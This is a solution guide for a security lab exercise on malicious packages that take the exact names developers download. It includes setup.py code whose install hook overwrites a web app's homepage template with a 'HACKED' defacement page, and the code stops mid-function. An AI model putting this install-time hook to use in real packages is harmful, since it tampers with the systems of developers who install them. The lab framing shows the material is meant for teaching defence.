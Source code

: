 # Solution Guide — ex4: Package Download Attack

## Overview
This exercise demonstrates how attackers can exploit developers who download packages from untrusted sources by creating malicious packages with the exact names that developers are trying to download. Unlike traditional typo-squatting, this attack targets specific package names that the developer is actively seeking.

## What the Attack Does
The developer simulator downloads three specific packages in rotation:
- `FlowerClassifier`
- `FlowerNet` 
- `FlowerID`

When a malicious package with one of these exact names is installed, it executes code during installation that overwrites the running web application's homepage template, demonstrating immediate impact.

## Key Differences from Previous Exercises
- **Targeted Attack**: Instead of relying on typos, we target the exact package names the developer wants
- **Specific Package Names**: The developer downloads `FlowerClassifier`, `FlowerNet`, and `FlowerID` repeatedly
- **Direct Impact**: Installation affects the live production-like environment immediately

## The Malicious Package
The solution includes a malicious `flowernet` package that:
- Uses the exact name `flowernet` (matching `FlowerNet` from the developer's download list)
- Implements a custom `install` hook that runs during package installation
- Overwrites `/app/templates/index.html` with a defaced page
- Creates a backup of the original file at `/app/templates/index.html.bak`

### Core Malicious Logic
The malicious code lives in `solution/malicious-packages/flowernet/setup.py`:

```python
class MaliciousInstall(install):
    def run(self):
        try:
            target_file = "/app/templates/index.html"
            backup_file = target_file + ".bak"
            HACKED_HTML = """<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>HACKED</title>
</head>
<body style="background:#111;color:#fff;text-align:center;padding-top:40px;">
    <h1>flowernet installed!</h1>
    <img src="https://i.imgur.com/Z6X8b5U.png" alt="Hacker" style="max-width:400px;width:80%;box-shadow:0 2px 16px #000;border-radius:12px;">
    <p style="margin-top:30px;font-size:1.2em;">Your site has been <span style="color:#e74c3c;">HACKED</span> by a typo-squatted package!</p>
</body>
</html>
"""
            # Create backup if it doesn't exist
            if os.path.exists(target_file) and not os.path.exists(backup_file):
                with open(target_file, "rb") as fsrc:
                    data = fsrc.read()
```